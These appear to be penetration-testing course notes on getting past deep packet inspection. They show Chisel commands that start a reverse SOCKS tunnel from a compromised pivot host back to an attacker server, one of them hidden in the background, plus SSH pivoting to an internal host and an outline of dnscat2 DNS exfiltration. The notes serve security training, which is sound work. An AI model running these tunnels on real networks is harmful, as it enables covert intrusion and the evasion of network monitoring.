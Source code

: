 # Tunneling Through Deep Packet Inspection

- <https://en.wikipedia.org/wiki/Deep_packet_inspection>



HTTP and DNS tunneling strategies may be useful when trying to traverse more hardened network environments, in particular to bypass systems that perform deep packet inspection, or other network traffic analysis.

We performed HTTP tunneling with Chisel, and  - and experienced some of the pros and cons of both.







## HTTP Tunneling with Chisel

- <https://github.com/jpillora/chisel/releases>

- OSCP:
	- <https://github.com/jpillora/chisel/releases/tag/v1.7.7>
	- <https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz>


Is an HTTP tunneling tool that encapsulates our data stream within HTTP.

It also uses the SSH protocol within the tunnel so our data will be encrypted.

Chisel uses a client/server model.
A Chisel server must be set up, which can accept a connection from the Chisel client. 
Various port forwarding options are available depending on the server and client configurations.

One useful option is reverse port forwarding, which is similar to SSH remote port forwarding.

Older tools like `HTTPTunnel` offer similar tunneling functionality, but lack the flexibility and cross-platform capabilities of Chisel.
- <http://http-tunnel.sourceforge.net/>


The Chisel server and client are actually run from the same binary, they're just initialized with either server or client as the first argument.

If our target host is running a different operating system or architecture, we have to download and use the compiled binary for that specific operating system and architecture from the Chisel Github releases page.

Once we have the Chisel binary on both our Kali machine and the target, we can run them.


Example:
create a reverse tunnel using `chisel, then use this tunnel to log in to an SSH server on TARGET 2  within the internal network.
Using only HTTP-formatted traffic to and from the compromised TARGET 1 pivot server.


1. On ATTACKER MACHINE:
run a Chisel server on our Kali machine, which will accept a connection from a Chisel client running on TARGET 1

```
# Run the chisel server
chisel server --port 8080 --reverse


## run tcpdump on our Kali machine to log incoming traffic
sudo tcpdump -nvvvXi tun0 tcp port 8080
# Output:
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```




2. On TARGET 1
```
chisel client [ATTACKER]:8080 R:socks
chisel client [ATTACKER]:8080 R:socks > /dev/null 2>&1 &
```

The R prefix specifies a reverse tunnel using a socks proxy (which is bound to port 1080 by default)




3. On ATTACKER
Pass an Ncat command to ProxyCommand. The command we construct tells Ncat to use the socks5 protocol and the proxy socket at 127.0.0.1:1080. The %h and %p tokens represent the SSH command host and port values, which SSH will fill in before running the command.

```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' 
database_admin@[TARGET 2]
```










### John Hammond tutorial
- <https://www.youtube.com/watch?v=pbR_BNSOaMk>


1. ATTACKER
```
chisel server --socks5 --reverse
# Output:
...
Fingerprint ...
Listening on http://0.0.0.0:8080
...
```


2 TARGET 1 (pivot)

2.a
```
# forward port 80 on TARGET 2 to port 8000 on ATTACKER
./chisel client --fingerprint [FINGERPRINT FROM CHISEL SERVER] [ATTACKER IP]:8080 R:8000:[TARGET 2]:80 
```
On port 8000 on ATTACKER MACHINE is mapped to TARGET 2 port 80


2.b
```
# access all ports
./chisel client --fingerprint [FINGERPRINT FROM CHISEL SERVER] [ATTACKER IP]:8080 R:socks
```

The Chisel server on our Kali machine will listen on TCP port 1080, a SOCKS proxy port. We have to use use `proxychais`













## DNS tunneling with dnscat2

- <https://thekelleys.org.uk/dnsmasq/doc.html>



We can use dnscat2 to exfiltrate data with DNS subdomain queries and infiltrate data with TXT (and other) records.
A dnscat2 server runs on an authoritative name server for a particular domain, and clients (which are configured to make queries to that domain) are run on compromised machines.






Thinking about exfiltration techniques (like DNS tunneling) may seem to present a "chicken or the egg" problem.3 How do we get the DNS tunneling client onto a host if we don't have command execution? Exfiltration is simply a tool we'll use to transfer data. It should be coupled with an exploitation vector that provides access to the target network.




















